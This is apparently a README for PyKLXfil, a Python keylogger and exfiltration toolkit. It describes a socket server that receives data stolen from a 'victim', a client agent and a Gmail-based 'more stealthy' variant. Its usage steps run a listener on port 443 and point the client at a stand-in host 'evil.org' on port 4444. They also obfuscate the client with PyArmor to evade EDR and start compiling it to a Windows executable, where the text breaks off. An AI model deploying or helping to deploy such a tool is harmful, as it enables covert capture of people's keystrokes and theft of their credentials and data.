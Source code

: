 # PyKLXfil: Python Keylogger and Exfiltrator.
## The toolset contains four main tools:
* PyKLXfil-Server: a socket server to recieve the exfiltrated data from a victem.
* PyKLXfil-Client: the agent that will perform the encoded key logging with a custome base64 table and the exfiltration of data back to PyKLXfil-Server.
* PyKLXfil-Client-mail: a standalone agent that will perform encoded key logging with a custome base64 table and exfiltration to a gmail email account (more stealthy).
* PyKLXfil-Decoder: a tool to decode the key logs.
## Install:
```sh
  git clone https://github.com/iD4rksid3/PyKLXfil.git
  cd PyKLXfil
  #The tool requires only two external modules: yagmail and pynput
  pip3 install -r requirements.txt
  ```
## Usage:
* Key logging and exfiltration using socket server and client:
```sh
#start listening on all NICs and on port 443 as background job
python3 PyKLXfil-Server.py 0.0.0.0 443 &
```
* Compile and obfuscate the python client for a windows machine:
```sh
#Edit PyKLXfil-Client.py and add your server's IP/domain and port
 nano PyKLXfil-Client.py
 #snip...       
 #self.host = 'evil.org'
 #self.port = 4444
 ```
 * Optionally you can obfuscate the script with PyArmore to make it less detectable by EDRs:
 ```sh
 pip3 install pyarmor
 pyarmor obfuscate PyKLXfil-Client.py
 ```
 * Compile the script to exe using pyinstaller:
